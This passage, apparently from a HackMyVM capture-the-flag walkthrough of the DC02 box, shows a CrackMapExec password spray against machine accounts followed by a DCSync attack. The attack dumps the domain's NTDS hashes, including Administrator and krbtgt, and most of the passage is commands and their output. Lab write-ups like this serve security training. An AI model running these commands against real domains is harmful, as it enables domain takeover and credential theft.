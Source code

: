 After creating the wordlist of machine accounts in the domain, we can start the password spray attack using `CrackMapExec`.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/DC02/Scans/AD Enumeration]
└─$ crackmapexec smb DC01.SOUPEDECODE.LOCAL -u Bloodhound/machines.txt  -H <REDACTED> | grep -v '[-]'
SMB                      SOUPEDECODE.LOCAL 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB                      SOUPEDECODE.LOCAL 445    DC01             [+] SOUPEDECODE.LOCAL\DC01$:<REDACTED> 
```

We get a hit on the machine account DC01$. We can use Bloodhound to enumerate the privileges of this account.
![](/assets/img/posts/walthrough/hackmyvm/2024-10-18-dc02/capture-3.png)

We can see that this machine account is a member of the Administrator group. We can use this group membership privilege to perform a DCSync attack against the domain controller.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/DC02/Scans/AD Enumeration]
└─$ crackmapexec smb DC01.SOUPEDECODE.LOCAL -u 'DC01$' -H c03669288f2d84068ff17d69058f505d --ntds  
SMB         SOUPEDECODE.LOCAL 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] SOUPEDECODE.LOCAL\DC01$:c03669288f2d84068ff17d69058f505d 
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         SOUPEDECODE.LOCAL 445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:8982babd4da89d33210779a6c5b078bd:::
SMB         SOUPEDECODE.LOCAL 445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         SOUPEDECODE.LOCAL 445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fb9d84e61e78c26063aced3bf9398ef0:::
SMB         SOUPEDECODE.LOCAL 445    DC01             soupedecode.local\bmark0:1103:aad3b435b51404eeaad3b435b51404ee:d72c66e955a6dc0fe5e76d205a630b15:::
SMB         SOUPEDECODE.LOCAL 445    DC01             soupedecode.local\otara1:1104:aad3b435b51404eeaad3b435b51404ee:ee98f16e3d56881411fbd2a67a5494c6:::
<SNIP>
SMB         SOUPEDECODE.LOCAL 445    DC01             PC-89$:2161:aad3b435b51404eeaad3b435b51404ee:288283bc94f0b34b3b880d1b910d595c:::
SMB         SOUPEDECODE.LOCAL 445    DC01             PC-90$:2162:aad3b435b51404eeaad3b435b51404ee:4ec3542687ebf86562bad0c5a78b4b60:::
```